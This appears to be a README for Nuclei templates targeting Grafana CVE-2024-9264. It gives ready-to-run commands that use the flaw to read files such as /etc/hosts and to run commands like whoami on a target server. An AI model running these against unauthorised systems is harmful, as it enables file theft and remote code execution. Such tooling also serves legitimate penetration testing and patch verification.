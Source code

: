 ## Grafana

### CVE-2024-9264

#### LFI 

- file: [grafana-cve-2024-9264-lfi.yaml](./grafana-cve-2024-9264-lfi.yaml)

The `grafana-cve-2024-9264-lfi.yaml` template leverages the vulnerability to exfiltrate files from the target.

Please note that you may need to escape slashes when specifying the path of the file you want to read in the rfile variable to prevent Nuclei from trying to open the file on your system.

```sh
nuclei -u <URL> -t ./grafana-cve-2024-9264-lfi.yaml -var username=<USER> -var password=<PWD> -var rfile="\/etc\/hosts"
```

##### RCE

- file: [grafana-cve-2024-9264-rce.yaml](./grafana-cve-2024-9264-rce.yaml)

The `grafana-cve-2024-9264-rce.yaml` template leverages the vulnerability to run commands the target.

```sh
nuclei -u <URL> -t ./grafana-cve-2024-9264-rce.yaml -var username=<USER> -var password=<PWD> -var command=whoami
```
